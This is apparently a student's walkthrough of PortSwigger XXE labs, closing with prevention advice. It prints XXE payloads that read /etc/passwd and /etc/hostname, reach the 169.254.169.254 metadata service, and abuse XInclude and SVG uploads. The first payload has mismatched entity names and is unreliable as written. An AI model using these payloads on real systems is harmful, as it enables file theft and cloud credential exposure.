

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
-Portswigger- https://portswigger.net/web-security/xxe

Background 

XML, Extensible Markup Langauge is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data. Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data. Earlier in the web's history, XML was in vogue as a data transport format (the "X" in "AJAX" stands for "XML"). But its popularity has now declined in favor of the JSON format.
-Portswigger- https://portswigger.net/web-security/xxe/xml-entities


Code Academy, introduction to XML
https://www.youtube.com/watch?v=O7fmNwbtCjo

Data flow from Server to client and client to server via JSON and XML

**Portswigger XXE Lab: Apprentice**

Sign in and start the lab


Start Caido and look for the post request once you use the "checkstock" button on the website.


Create a system call:
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY gap SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

then replace the productID with your call:
```&gap```


------

OKay 2nd Lab:

Start the lab and navigate to one of the products, click on the stock check button at the bottom. 


Use this command after the external entry definition.

```<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>```

Then replace the ProductID with this:
``` &xxe;```


Navigate through the servers file system ```169.254.169.254/latest/```


Keep following until it pays out!


------

Next Lab:

**XInclude attacks:**

Insert this call to the Xinclude library where the ProductID is:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```



**XXE attacks via file upload**

This one is a little harder. start by upload an .svg file as a post. Grab a common svg file like this from the webe

```
<svg xmlns="http://www.w3.org/2000/svg" version="1.1"
     width="120" height="120">
  <rect x="14" y="23" width="200" height="50" fill="lime"
      stroke="black" />
</svg>
```

Vim, paste and exit. 


Upload it as a post then send the post to replay in Caido.


Now swap out the svg data for a something a little more malicious.

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


Reload the page and look for your post. 


You should now be able to right click on the post avatar(svg image) and open it in a new tap to read and enter the solution.


**How to prevent XXE vulnerabilities**
Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.

Generally, it is sufficient to disable resolution of external entities and disable support for XInclude. This can usually be done via configuration options or by programmatically overriding default behavior. Consult the documentation for your XML parsing library or API for details about how to disable unnecessary capabilities. - Postwigger -


